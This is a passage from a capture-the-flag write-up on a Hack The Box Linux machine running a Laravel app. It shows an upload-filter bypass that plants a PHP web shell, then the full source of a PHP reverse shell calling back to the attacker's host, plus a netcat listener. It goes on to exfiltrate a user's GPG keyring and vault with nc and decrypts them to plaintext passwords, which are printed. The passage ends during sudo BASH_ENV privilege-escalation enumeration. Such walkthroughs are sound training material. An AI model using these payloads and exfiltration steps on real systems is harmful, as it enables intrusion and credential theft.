Cookie: XSRF-TOKEN=eyJpdiI6Ik8yVktLcGFBTjVTclZ1S2ZhQlIyb1E9PSIsInZhbHVlIjoialE4OUVSaXlVbWt0MzhqdVBabk4rR1ROVVBMSEZQeDNFdHkwUjUrL2Z3bHVFVmhYWThHU1h4MXExZHBJa3FDeVdIWG5YZFh3UGdRb0NSdkE3Ti9SR1NSUDlSc0lOZ1dDT2VPb1RwMUkvNjBsR1hkNkEvemZmYmJZNDYySGxNUU0iLCJtYWMiOiIyZjk1MzU1ZTMzZTYwYjZlNDFhNjNiZmI3NTJiZmJkOWExMTkyNjU2MDhhZmY4ODY1ZDQzZTc1ZGZmYjlkZDI4IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Imh0am8rTS9vbDRwZjg5WEU0L3BxaGc9PSIsInZhbHVlIjoidVNMT09jT3J5TnVxYi9JUGhJajFIalJ1MVhJOGNNWnZiZU5KQkJwa3JBZGRCTy82ZzB3UTZ1eDZPQmwyTGE4Rk4wYndnWnJMSDJjbzcyMmpOKzRobWh4VENCTmFST0NzNGdNQnF0UGdlZ29JdXVaTzBzbTR2NzN1ZnQ3QTF1ejAiLCJtYWMiOiIzYjQyZjhhYTBjOGY3OTQ0NDFkMTNmOGI3ZjQxM2IzNzkxOGIwNWZjZGEyY2I4YzVkZjU5ZTVkMzlhNTUyY2RlIiwidGFnIjoiIn0%3D
Connection: keep-alive

------WebKitFormBoundaryDBJuJf9TC23GKTvR
Content-Disposition: form-data; name="_token"

Vv6nlKZcvkC0uiLuuUwsCGdfX9j6Z2DtDpFNGpqL
------WebKitFormBoundaryDBJuJf9TC23GKTvR
Content-Disposition: form-data; name="upload"; filename="shell.php."
Content-Type: image/gif

GIF89a
<?php system($_GET['cmd']); ?>

------WebKitFormBoundaryDBJuJf9TC23GKTvR--

```

After we `forwarded` the `request` we received the `path` on which the file was accessible with the expected extension of `.php`.

```shell
HTTP/1.1 200 OK
Server: nginx/1.22.1
Content-Type: application/json
Connection: keep-alive
Cache-Control: no-cache, private
Date: Sun, 04 May 2025 09:33:03 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6ImZiUlhQWCtlZjc5cUs3Zmw2Sk96cFE9PSIsInZhbHVlIjoiQ2RhR0diK2FZanNyemVmWDczdzBsaWpaSXE5NlFrWHpmaDZ6NHJBMFM5S3JFUStJQWs2N0VHZmQvbjlBWTRMOE15UURZdnNMekg1YUQvYzZCSzJpTE53WnpIaS9PbzhzVGpOVWtQUWJTYVhOY2tCS1lUMDFLKzJNMUV0cWtQemYiLCJtYWMiOiIwZGJiYzQ4NDY0NThhOWY3MDU1NDE0YWZmZTVmZDBjMjkyNTFhNjIxZmIyMDAxYWE0OWI2NWVjYzg0MGE4ZjEzIiwidGFnIjoiIn0%3D; expires=Sun, 04 May 2025 11:33:03 GMT; Max-Age=7200; path=/; samesite=lax
Set-Cookie: laravel_session=eyJpdiI6InJ2Z0pDbHVXWTh1cHVYcVlLRUF2aEE9PSIsInZhbHVlIjoiUDNjU3RTV3MxUTZxMS95WERTbFhoU3cvR0oxMmR3UkkrT1FqSnp6b3E5ZTJXc2JnekxkdkoxVVJ4SmNzMjdmOW11N2JJWXFaWDgvMUNISThYMDNLdFlCb0F6RjdpQ2dqSmpya0pPWUt6TFpGZmttSGdxMEM4ZnZHb3B3cEFkSjIiLCJtYWMiOiIwMDEwOTA3MzM2ZGE2ODY5NGZhZGQzMzA1N2E3NjlhN2MxZTNlN2UxN2Y5ZDIzMjY2YWQ5MzVjODZhMWVkMjM3IiwidGFnIjoiIn0%3D; expires=Sun, 04 May 2025 11:33:03 GMT; Max-Age=7200; path=/; httponly; samesite=lax
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Content-Length: 126

{"url":"http:\/\/environment.htb\/storage\/files\/shell.php","uploaded":"http:\/\/environment.htb\/storage\/files\/shell.php"}
```



This enabled us to achieve `Remote Code Execution (RCE)`.

- [http://environment.htb/storage/files/shell.php?cmd=id](http://environment.htb/storage/files/shell.php?cmd=id)



### Reverse Shell

To get a `reverse shell` on the box I used the `php_reverse_shell.php` by `Ivan Sincek` (great guy, shout-out to this legend!).

- [https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
--2025-05-04 11:38:20--  https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9403 (9.2K) [text/plain]
Saving to: ‘php_reverse_shell.php’

php_reverse_shell.php                                      100%[========================================================================================================================================>]   9.18K  --.-KB/s    in 0.004s  

2025-05-04 11:38:20 (2.46 MB/s) - ‘php_reverse_shell.php’ saved [9403/9403]
```

I modified it to my needs and added a `.jpg` to the `extension`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ tail php_reverse_shell.php.jpg 
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.16.12', 9001);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ mv php_reverse_shell.php php_reverse_shell.php.jpg
```

For the `upload part` I `repeated` the `procedure` to drop the `reverse shell` to the box.

```shell
POST /upload HTTP/1.1
Host: environment.htb
Content-Length: 9743
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryA16XmwIlgCRyFsnT
Accept: */*
Origin: http://environment.htb
Referer: http://environment.htb/management/profile
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6IklrYXZiMDV3RHY0T0dRcmtKTlNnZ0E9PSIsInZhbHVlIjoiL0JLV0ZtbnRSeERuYlZQbkdzcjhJR1FkK0hBYU9yTk82QUsxQUJuUDZiczRORDhON2dLbmJwaGl6bXhJMDN3ZjNIT3VPR0QySEh3aVFYYTZwQUF0c1ZrUU54WnMvMTFoT0tObkx4U2JKbGRDUE44dWFObERBV3ZQNVFOdGZOaGkiLCJtYWMiOiIwNDZhNTUxYTM5NzE1NTc0NDk2YTU1YzZiNGY0YzkwOTUxM2E1Zjc5NzM0NzYwYmY5NTc3YWJiZmY2MjhmOWJhIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkNIVzNoQUFGNkNFNWVVVUZWZWsra0E9PSIsInZhbHVlIjoiUUxRQXFQb2ZkelRKVjdyYTJBVTJQQlgxNktubmVQSTJPVGF1ZElJMFF0bUlHVjBza2J0aWFTYmFwdGJFanlDbjVja1ZnbU5YenZUKzdSUERKMHR6ejI0bS9mRVJSdVFRZ2dOdkVlbVZ1bVpyWGkvUGJEUGQ2eXY0bWpuS00va0QiLCJtYWMiOiI1YjUyMjU5YWY0MjU1NTc0ZGJkNTRjYzVlZmFjYmVhZjJlN2M1YzIxOTUxMGY4YmQ4MTBkYmRiYWI5M2YwODNjIiwidGFnIjoiIn0%3D
Connection: keep-alive

------WebKitFormBoundaryA16XmwIlgCRyFsnT
Content-Disposition: form-data; name="_token"

Vv6nlKZcvkC0uiLuuUwsCGdfX9j6Z2DtDpFNGpqL
------WebKitFormBoundaryA16XmwIlgCRyFsnT
Content-Disposition: form-data; name="upload"; filename="php_reverse_shell.php."
Content-Type: image/gif

GIF89a
<?php
// Copyright (c) 2020 Ivan Šincek
// v2.6
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer = 1024;  // read/write buffer size
    private $clen   = 0;     // command length
    private $error  = false; // stream read/write error
    private $sdump  = true;  // script's dump
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        $os = PHP_OS;
        if (stripos($os, 'LINUX') !== false || stripos($os, 'DARWIN') !== false) {
            $this->os    = 'LINUX';
            $this->shell = '/bin/sh';
        } else if (stripos($os, 'WINDOWS') !== false || stripos($os, 'WINNT') !== false || stripos($os, 'WIN32') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function_exists('pcntl_fork')) {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        } else if (($pid = @pcntl_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
            // once daemonized, you will actually no longer see the script's dump
        } else if (posix_setsid() < 0) {
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        return $exit;
    }
    private function settings() {
        @error_reporting(0);
        @set_time_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        if ($this->sdump) {
            $data = str_replace('<', '&lt;', $data);
            $data = str_replace('>', '&gt;', $data);
            echo $data;
        }
    }
    private function read($stream, $name, $buffer) {
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set the global error flag
            echo "STRM_ERROR: Cannot read from {$name}, script will now exit...\n";
        }
        return $data;
    }
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
            $this->error = true;                            // set the global error flag
            echo "STRM_ERROR: Cannot write to {$name}, script will now exit...\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $size = fstat($input)['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // so we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: {$status['pid']}\n");
                    do {
                        $status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.16.12', 9001);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>

------WebKitFormBoundaryA16XmwIlgCRyFsnT--

```

```shell
HTTP/1.1 200 OK
Server: nginx/1.22.1
Content-Type: application/json
Connection: keep-alive
Cache-Control: no-cache, private
Date: Sun, 04 May 2025 09:39:39 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6IkpQbDhoQ3VHZmN5QTBZaVJLWXJKVHc9PSIsInZhbHVlIjoiYXJ5Nk1vdTlwWi9wSGhPWHFSbVdZWFM2dGVCUXFUVVh5NS9rTzRSWU10Wmk4Mkw4RXpwRURucVR0eVFyWTdEMVBFWGlReFlUUjh2MWEwWkszWTc0dFhpTDgvSDluSTBxRElVZWlEc0diODJjb09ueHFEUCtkT3VSdzVZWHVGa3oiLCJtYWMiOiJiZjU5NjAzMjE0MWI0ZjdkMDI3ZjE4ZGQ5MzkwMDg2YTAyNGE3MTZhYzE5NzEyZmU1NjhmODc4YmNlNmM5MjY0IiwidGFnIjoiIn0%3D; expires=Sun, 04 May 2025 11:39:39 GMT; Max-Age=7200; path=/; samesite=lax
Set-Cookie: laravel_session=eyJpdiI6IlFtVGY2WUxRNUF5TWZ6d2NubEJwNlE9PSIsInZhbHVlIjoiMW45TVFCYzFDZlljYWlISG0wNkxIMlBsMlBzNGxWMTcyZWVlUzZQQkpTV2V4Um5tekFCanV3eDNUcHpoQ1d3NmZzc1IzWjRHeFNwTzk5SnBVMGgvOXVUdzUzeFlZWG5CR3lWWEZEVVN2bGFuMDhrR21UWFkyb0hrVkFkeERkV08iLCJtYWMiOiIwOThjYjNjYTY3OTJhODQyYzRkMTQ1MTJiNGFlY2YwMGE5NWEzM2M0NDI0NTVlN2ZlNWIwODg1N2QyZmMzYTk2IiwidGFnIjoiIn0%3D; expires=Sun, 04 May 2025 11:39:39 GMT; Max-Age=7200; path=/; httponly; samesite=lax
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Content-Length: 150

{"url":"http:\/\/environment.htb\/storage\/files\/php_reverse_shell.php","uploaded":"http:\/\/environment.htb\/storage\/files\/php_reverse_shell.php"}
```



After `accessing` the file I received the `callback`.

- [http://environment.htb/storage/files/php_reverse_shell.php](http://environment.htb/storage/files/php_reverse_shell.php)

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.107.56] 49904
SOCKET: Shell has connected! PID: 2118
```

We stabilized our shell and moved on.

```shell

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@environment:~/app/storage/app/public/files$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@environment:~/app/storage/app/public/files$ 
www-data@environment:~/app/storage/app/public/files$ export XTERM=xterm
www-data@environment:~/app/storage/app/public/files$
```

## Enumeration (www-data)

Since we got a shell as `www-data` we started looking for `potential users` on the system and `credentials` within the `web directories`. We noticed that the user `Hish` on the `dashboard` was also a user on the box.

```shell
www-data@environment:~/app/storage/app/public/files$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
hish:x:1000:1000:hish,,,:/home/hish:/bin/bash
_laurel:x:999:996::/var/log/laurel:/bin/false
```

| Username |
| -------- |
| hish     |

And we were able to access his `home directory` as well as other files folders.

```shell
www-data@environment:/home/hish$ ls -lah
total 36K
drwxr-xr-x 5 hish hish 4.0K Apr 11 00:51 .
drwxr-xr-x 3 root root 4.0K Jan 12 11:51 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6 21:28 .bash_logout
-rw-r--r-- 1 hish hish 3.5K Jan 12 14:42 .bashrc
drwxr-xr-x 4 hish hish 4.0K May  4 19:56 .gnupg
drwxr-xr-x 3 hish hish 4.0K Jan  6 21:43 .local
-rw-r--r-- 1 hish hish  807 Jan  6 21:28 .profile
drwxr-xr-x 2 hish hish 4.0K Jan 12 11:49 backup
-rw-r--r-- 1 root hish   33 May  4 18:21 user.txt
```

## user.txt

We grabbed the `user.txt` and moved on.

```shell
www-data@environment:/home/hish$ cat user.txt
d8a6d928a98f338ddd448447bec2439e
```

## Privilege Escalation to hish

Within `home/hish/backup` we found a `keyvault.gpg` file which indicated the need for the users `keyring` stored in the corresponding `.gnupg` folder.

```shell
www-data@environment:/home/hish/backup$ ls -lah
total 12K
drwxr-xr-x 2 hish hish 4.0K Jan 12 11:49 .
drwxr-xr-x 5 hish hish 4.0K Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 May  4 20:07 keyvault.gpg
```

```shell
www-data@environment:/home/hish/.gnupg$ ls -lah
total 32K
drwxr-xr-x 4 hish hish 4.0K May  4 20:12 .
drwxr-xr-x 5 hish hish 4.0K Apr 11 00:51 ..
drwxr-xr-x 2 hish hish 4.0K May  4 20:12 openpgp-revocs.d
drwxr-xr-x 2 hish hish 4.0K May  4 20:12 private-keys-v1.d
-rwxr-xr-x 1 hish hish 1.5K Jan 12 03:13 pubring.kbx
-rwxr-xr-x 1 hish hish   32 Jan 12 03:11 pubring.kbx~
-rwxr-xr-x 1 hish hish  600 Jan 12 11:48 random_seed
-rwxr-xr-x 1 hish hish 1.3K Jan 12 11:48 trustdb.gpg
```

Due to the `lack of permissions` we `exfiltrated` the files to our local machine. We started by generating a `.tar.gz` archive of `.gnupg`.

```shell
www-data@environment:/home/hish$ tar -czvf /tmp/gnupg.tar.gz  .gnupg/
.gnupg/
.gnupg/private-keys-v1.d/
.gnupg/private-keys-v1.d/C2DF4CF8B7B94F1EEC662473E275A0E483A95D24.key
.gnupg/private-keys-v1.d/3B966A35D4A711F02F64B80E464133B0F0DBCB04.key
.gnupg/trustdb.gpg
.gnupg/pubring.kbx
.gnupg/openpgp-revocs.d/
.gnupg/openpgp-revocs.d/F45830DFB638E66CD8B752A012F42AE5117FFD8E.rev
.gnupg/pubring.kbx~
.gnupg/random_seed
```

Then we started with downloading the `keyvault.gpg`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ nc -lnvp 4444 > keyvault.gpg
listening on [any] 4444 ...
```

```shell
www-data@environment:/home/hish/backup$ nc 10.10.16.12 4444 < keyvault.gpg
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ nc -lnvp 4444 > keyvault.gpg
listening on [any] 4444 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.107.56] 43692
```

After that we `downloaded` and `extracted` the `archive`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ nc -lnvp 4444 > gnupg.tar.gz
listening on [any] 4444 ...
```

```shell
www-data@environment:/tmp$ nc 10.10.16.12 4444 < gnupg.tar.gz
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ nc -lnvp 4444 > gnupg.tar.gz
listening on [any] 4444 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.107.56] 37952
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ tar -xvf gnupg.tar.gz 
.gnupg/
.gnupg/private-keys-v1.d/
.gnupg/private-keys-v1.d/C2DF4CF8B7B94F1EEC662473E275A0E483A95D24.key
.gnupg/private-keys-v1.d/3B966A35D4A711F02F64B80E464133B0F0DBCB04.key
.gnupg/trustdb.gpg
.gnupg/pubring.kbx
.gnupg/openpgp-revocs.d/
.gnupg/openpgp-revocs.d/F45830DFB638E66CD8B752A012F42AE5117FFD8E.rev
.gnupg/pubring.kbx~
.gnupg/random_seed
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ ls -la
total 28
drwxrwx--- 1 root vboxsf  136 May  4 12:17 .
drwxrwx--- 1 root vboxsf   60 May  4 11:35 ..
drwxrwx--- 1 root vboxsf  156 May  4 12:14 .gnupg
-rwxrwx--- 1 root vboxsf 6111 May  4 12:15 gnupg.tar.gz
-rwxrwx--- 1 root vboxsf  430 May  4 12:09 keyvault.gpg
-rwxrwx--- 1 root vboxsf 9405 May  4 11:38 php_reverse_shell.php.jpg
-rwxrwx--- 1 root vboxsf   38 May  4 11:24 shell.php.jpg
```

Before we could use it we `moved` our own `.gnupg` directory and `copied` the folder of `hish` to the same location in our `home directory`.

```shell
┌──(kali㉿kali)-[~]
└─$ mv .gnupg .gnupg.bak
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ cp -R .gnupg ~/
```

Now we could use the `-d` option pointing to the `keyvault.gpg` file in order to read the stored `credentials`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ gpg -d keyvault.gpg 
gpg: WARNING: unsafe permissions on homedir '/home/kali/.gnupg'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

| Password              |
| --------------------- |
| Ihaves0meMon$yhere123 |
| marineSPm@ster!!      |
| summerSunnyB3ACH!!    |

And with the password for `ENVIRONMENT.HTB` we could `escalate our privileges` to `hish`.

| Username | Password         |
| -------- | ---------------- |
| hish     | marineSPm@ster!! |

```shell
┌──(kali㉿kali)-[~]
└─$ ssh hish@10.129.107.56
The authenticity of host '10.129.107.56 (10.129.107.56)' can't be established.
ED25519 key fingerprint is SHA256:GKtBN7PjK58Q8eTT80jQMUZYS5ZLu8ccptkyIueks18.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.107.56' (ED25519) to the list of known hosts.
hish@10.129.107.56's password:
Linux environment 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May 4 20:18:48 2025 from 10.10.16.12
hish@environment:~$
```

## Enumeration (hish)

A quick `enumeration` as `hish` showed none special `groups` but interesting `privileges` using `sudo`. The user was able to `change` the `environment variables` because of `env_reset` and execute a `script` on `/usr/bin/` called `systeminfo` using `sudo`.

However by default, `env_reset` would remove these variables. The `env_keep+="ENV BASH_ENV"` explicitly keeps the `ENV` and `BASH_ENV` environment variables when using `sudo`.

```shell
hish@environment:~$ id
uid=1000(hish) gid=1000(hish) groups=1000(hish),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
```

```shell
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

The script did nothing fancy. It just gathered some information about the system and displayed it on the shell.

```shell
hish@environment:~$ cat /usr/bin/systeminfo
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```

```shell
hish@environment:~$ sudo /usr/bin/systeminfo

### Displaying kernel ring buffer logs (dmesg) ###
[    5.202829] NET: Registered PF_VSOCK protocol family
[    5.595537] auditfilter: audit rule for LSM 'crond_t' is invalid
[    5.595588] auditfilter: audit rule for LSM 'crond_t' is invalid
[    6.044863] vmxnet3 0000:03:00.0 eth0: intr type 3, mode 0, 3 vectors allocated
[    6.051022] vmxnet3 0000:03:00.0 eth0: NIC Link is Up 10000 Mbps
[ 2094.401506] perf: interrupt took too long (2516 > 2500), lowering kernel.perf_event_max_sample_rate to 79250
[ 2475.915832] perf: interrupt took too long (3152 > 3145), lowering kernel.perf_event_max_sample_rate to 63250
[ 5484.492967] perf: interrupt took too long (3972 > 3940), lowering kernel.perf_event_max_sample_rate to 50250
[ 5890.032745] perf: interrupt took too long (4972 > 4965), lowering kernel.perf_event_max_sample_rate to 40000
[ 6765.883313] perf: interrupt took too long (6217 > 6215), lowering kernel.perf_event_max_sample_rate to 32000

### Checking system-wide open ports ###
State              Recv-Q             Send-Q                           Local Address:Port                           Peer Address:Port             Process                                                                                   
LISTEN             0                  128                                    0.0.0.0:22                                  0.0.0.0:*                 users:(("sshd",pid=933,fd=3))                                                            
LISTEN             0                  511                                    0.0.0.0:80                                  0.0.0.0:*                 users:(("nginx",pid=936,fd=5),("nginx",pid=935,fd=5),("nginx",pid=934,fd=5))             
LISTEN             0                  128                                       [::]:22                                     [::]:*                 users:(("sshd",pid=933,fd=4))                                                            
LISTEN             0                  511                                       [::]:80                                     [::]:*                 users:(("nginx",pid=936,fd=6),("nginx",pid=935,fd=6),("nginx",pid=934,fd=6))             

### Displaying information about all mounted filesystems ###
sysfs        on  /sys                                                 type  sysfs        (rw,nosuid,nodev,noexec,relatime)
proc         on  /proc                                                type  proc         (rw,relatime,hidepid=invisible)
